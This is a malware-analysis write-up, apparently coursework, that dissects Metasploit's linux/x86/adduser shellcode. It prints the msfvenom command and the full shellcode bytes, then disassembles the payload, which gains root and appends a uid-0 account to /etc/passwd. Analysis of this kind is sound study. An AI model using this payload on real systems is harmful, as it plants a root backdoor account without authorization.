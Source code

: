 # linux/x86/adduser
- Analysis by: William Moody
- PA-25640

I first dumped the shellcode:
`msfvenom -p linux/x86/adduser USER=user PASS=pass -f c`

Then pasted it into `shellcode.c`, and compiled with:
`gcc shellcode.c -o shellcode`.

Libemu didn't give any meanigful output for this shellcode. I did however use the 
output of ndisasm, created with this command:
`echo -ne "\x31\xc9\x89\xcb\x6a\x46\x58\xcd\x80\x6a\x05\x58\x31\xc9\x51\x68\x73\x73\x77\x64\x68\x2f\x2f\x70\x61\x68\x2f\x65\x74\x63\x89\xe3\x41\xb5\x04\xcd\x80\x93\xe8\x22\x00\x00\x00\x75\x73\x65\x72\x3a\x41\x7a\x77\x31\x37\x63\x54\x6e\x6e\x4a\x41\x41\x41\x3a\x30\x3a\x30\x3a\x3a\x2f\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x59\x8b\x51\xfc\x6a\x04\x58\xcd\x80\x6a\x01\x58\xcd\x80" | ndisasm -u - -b 32 -p intel > linux-x86-adduser.ndisasm`

To analyze the shellcode itself I decided to use GDB with the [pwndbg plugin](https://github.com/pwndbg/pwndbg). 

First I needed to skip my runner code and get to the actual shellcode. The commands needed are:
```
b*main+201
r
stepi
```

The first thing the shellcode does is set the real and effective user id of the process to 0 (root)
---
`setreuid(0, 0);`

00000000  31C9              xor ecx,ecx				; ECX = 0
00000002  89CB              mov ebx,ecx				; EBX = 0
00000004  6A46              push byte +0x46
00000006  58                pop eax					; EAX = 0x46
00000007  CD80              int 0x80				; setreuid(...)

Next open "/etc/passwd", which is the file where users are defined on linux
---
`int fd = open("/etc/passwd", 0x401);`

```
00000009  6A05              push byte +0x5
0000000B  58                pop eax					; EAX = 0x5
0000000C  31C9              xor ecx,ecx				; ECX = 0
0000000E  51                push ecx				
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f	; Push "/etc//passwd\x00"
0000001E  89E3              mov ebx,esp				; EBX = *"/etc/passwd\x00"
00000020  41                inc ecx					; ECX = 1
00000021  B504              mov ch,0x4				; ECX = 0x401 = O_NOCTTY | O_WRONLY 
00000023  CD80              int 0x80				; open(...)
```

Assembly code from here on was incorrectly disassembled by ndisasm. I will include it anyways, but What actually happens is:
---
`buf` is a predefined series of characters with the value
`"user:Azw17cTnnJAAA:0:0::/:/bin/sh\n"`

The shellcode appends this line to "/etc/passwd"
`write(fd, buf, len(buf));`

Then the shellcode exits without setting a specific status code:
`exit();`

00000025  93                xchg eax,ebx
00000026  E822000000        call 0x4d				
0000002B  7573              jnz 0xa0
0000002D  65723A            gs jc 0x6a
00000030  41                inc ecx
00000031  7A77              jpe 0xaa
00000033  3137              xor [edi],esi
00000035  63546E6E          arpl [esi+ebp*2+0x6e],dx
00000039  4A                dec edx
0000003A  41                inc ecx
0000003B  41                inc ecx
0000003C  41                inc ecx
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
